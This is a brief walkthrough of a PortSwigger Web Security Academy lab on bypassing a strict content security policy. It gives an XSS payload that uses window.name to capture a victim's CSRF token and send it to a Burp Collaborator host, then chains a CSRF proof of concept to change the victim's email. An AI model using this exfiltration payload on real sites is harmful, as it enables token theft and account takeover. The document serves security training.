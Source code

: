 ----

### Lab description

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You then need to change the simulated user's email address to `hacker@evil-user.net`.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`


### Lab solution

- Login with credencials and send the payload

```
<script> if(window.name) { 
new Image().src='//collab.oastify.com?'+encodeURIComponent(window.name);
} else { location='https://0a8000c704f9b73f81fc752a00f600e7.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a5600150418b7ac819c747701ca0011.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';}
</script>

```
- Get the CSRF token at burp collaborator
![](/static/img/Pasted_image_20230703091824.png)

- Send the change email account request again, and generate a CSRF POC, like one bellow

![](/static/img/Pasted_image_20230703091807.png)

- LAB will be solved automatically